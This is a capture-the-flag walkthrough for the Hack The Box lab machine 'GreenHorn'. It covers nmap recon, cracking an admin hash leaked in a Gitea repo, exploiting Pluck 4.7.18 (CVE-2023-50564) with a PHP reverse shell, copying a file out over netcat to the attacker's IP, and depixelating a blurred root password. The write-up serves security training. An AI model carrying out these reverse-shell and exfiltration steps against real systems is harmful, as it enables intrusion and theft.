

# GreenHorn      


## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.


Here are the descriptions of the open ports shown in the screenshots:

### **22/tcp (SSH)**
This port is used by `OpenSSH`, version 8.9p1 Ubuntu 3ubuntu0.10, running on an Ubuntu Linux system. The SSH service supports protocol 2.0 and provides secure remote access. The server's fingerprint reveals the use of `ECDSA` and `ED25519` host keys, ensuring a secure encrypted connection.

### **80/tcp (HTTP)**
This port is used by the `nginx` web server, version 1.18.0, running on an Ubuntu system. The server handles HTTP requests and supports methods such as `GET`, `HEAD`, `POST`, and `OPTIONS`. The HTTP response indicates a redirect to `http://greenhorn.htb/`, and the service is set up to serve web content with potential redirection.

### **3000/tcp (Web Application)**
This port appears to be running a service that serves web content, potentially associated with a `Gitea` instance. The server responds with HTTP headers and sets cookies named `i_like_gitea` and `_csrf`, suggesting a web-based application with user sessions and CSRF protection mechanisms. The application supports HTTP methods such as `GET` and `HEAD`. The HTTP title indicates the name "GreenHorn," pointing towards a web application interface available on this port.

When accessing the site, there is a redirect to `http://greenhorn.htb/`, indicating the presence of a web application hosted on this address, but no title was retrieved, after pasting `http://{target ip}/` into the browser.


Add `{target ip} greenhorn.htb` into your `/etc/hosts` file.

To do this type:

```
sudo nano /etc/hosts
```

and then paste:

```
{target ip} greenhorn.htb
```


At the very end, then `save` it. You can do that by `Ctrl + X`. Then press `Y`. Confirm with `Enter`.

Now, after pasting `http://greenhorn.htb` into the browser we can see website.


After clicking on **admin** there is `log in` page.


I've tried with some basic combinations but it didn't work.


We cannot do much.

We know that **Port 3000** is open.

Let's paste:

```
http://greenhorn.htb:3000
```

into the browser.


We can see that this port is running a **Gitea** instance - self-hosted **Git** service.

Let's explore it.

After a while I found something interesting.

In the **GreenAdmin** repo(btw one and only repo there) in the path `GreenHorn/data/settings` there is a file named **pass.php**.


Open it.


We have the **hash** of the **admin**'s password.

### hashid

To crack the password, first, we need to identify the hashing function that was used.

Type:

```
hashid d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163
```


We can see that most likely **SHA-512** was used.

I used `online tool` to crack it: https://passwordrecovery.io/sha512/


The password is ` iloveyou1`.

### Web again

Let's go back to `http://greenhorn.htb`.

Press **admin** and provide the password.


We can see admin panel.


In **pages** tab we have **manage files** section. I tried to upload standard `PHP Reverse Shell` but it didn't work.


What we know is that the version of **pluck** is **4.7.18**.

I found this:

```
https://www.exploit-db.com/exploits/51592
```

and this:

```
https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC
```

If instructions are still unclear to you, watch this:

```
https://www.youtube.com/watch?v=GpL_rz8jgro
```

### Exploitation (Reverse shell + Netcat) CVE-2023-50564 

Let's use that exploit.

First of all, let's `clone` it.

```
git clone https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC.git
```

```
cd CVE-2023-50564_Pluck-v4.7.18_PoC
```

```
pip install requests requests_toolbelt
```

We have to create Reverse Shell file.

Go to: https://www.revshells.com/ and provide your `tun0 ip` and `port` you want to use. We are going to use `PHP Pentest Monkey` template.


Copy, and save it as `.php` file.

Now type:

```
zip {any name you want}.zip {name of your pentest monkey reverse shell file}.php
```


And upload `.zip`.


Now is time to modify **poc.py**.


Provide all necessary changes and `save`.

Now set up the **Netcat**:

```
nc -lvnp {port you have chosen}
```


Time to execute **exploit**.

```
python3 poc.py
```

When it asks you about `ZIP file path` provide your `.zip` filename.

#### Disclaimer

When something is not working for you, pay attention to the directories from which you execute scripts or create files.

In the **Netcat** tab we have a shell.


You can stabilize your shell by pasting:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Get the user flag

The `user` flag is in the `/home/junior` path.

If you cannot **cat** the flag, type:

```
su junior
```

and provide password cracked earlier - `iloveyou1`.


## Privilege Escalation

We cannot do much but we can see **Using OpenVAS.pdf** file in `/home/junior` path.


Let's transfer this file to our local machine.

Type in new tab:

```
nc -lvp {port of your choice} > Using_OpenVAS.pdf
```


and in the `reverse shell` tab:

```
nc {your tun0 ip} {port you have chosen} < 'Using OpenVAS.pdf'
```


remember to be in `/home/junior` path.


This is how the `.pdf` content looks like:


However, password is blurred.

I've tried with many options but nothing worked.

There is probably only one solution:

We have to convert `.pdf` file into image.

```
pdfimages Using_OpenVAS.pdf pdfimg
```

and clone **Depix**:

```
git clone https://github.com/spipm/Depix.git
```

Now type:

```
python3 Depix/depix.py -p pdfimg-000.ppm -s Depix/images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png 
```


```
open output.png
```

It looks like this:


I blurred it so that it wouldn't be too easy for someone who just wants the root password.

Now, you can join via **SSH** by typing:

```
ssh root@{target ip}
```

and then providing that password.

If your **reverse shell** shell is still open, you can also just type in it:

```
su root
```

and provide the password.


### Get the root flag

`Root` flag is in the `/root` directory.



### Paste the flags

